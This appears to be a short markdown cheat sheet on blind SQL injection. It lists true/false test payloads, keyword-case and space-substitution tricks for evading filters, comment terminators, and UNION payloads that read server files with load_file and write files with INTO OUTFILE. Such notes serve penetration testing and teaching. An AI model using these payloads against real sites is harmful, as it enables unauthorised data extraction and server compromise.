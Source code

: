 SQLi or SQL injection is a web application vulnerability allows an attacker to bypass logins and extract sensitive data from the database.

## Blind SQLi
Another type of sql injection attack where error does not shown to the user.
### How to indentify blind SQLi:
Test it by making payloads **TRUE**, for eg.:
  `1' and 1 = 1 #` this statement is true and should return the normal data
  `1' and 1 = 2 #` this statement is false and will not return any data without showing any error.

If both payloads work mean site is vulnerable to blind SQLi but not showing error on wrong SQLi pyload.

Examples of TRUE statements for discovering sqli
```
aNd 1=1
aNd 21=21
orDeR bY 1
```

Examples of FALSE statements
```
dNd 0=1
anD 9=2
ordEr bY 1000000000000
```

Characters to use instead of spaces:
```
+, /**/, %20
Examples: orDeR bY 1 can be re-written as
orDer+bY+1
orDer/**/bY/**/1
orDer%20bY%201
```

Comments to end the quries:
```
/*
//
#
%23
```

Ps: sometimes you might need to add ';' before the comment, examples:
```
anD 1=1//
anD 1=1;//
```
#### Reading files:
UniOn selEct 1,load_file('file location') /*

#### Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*
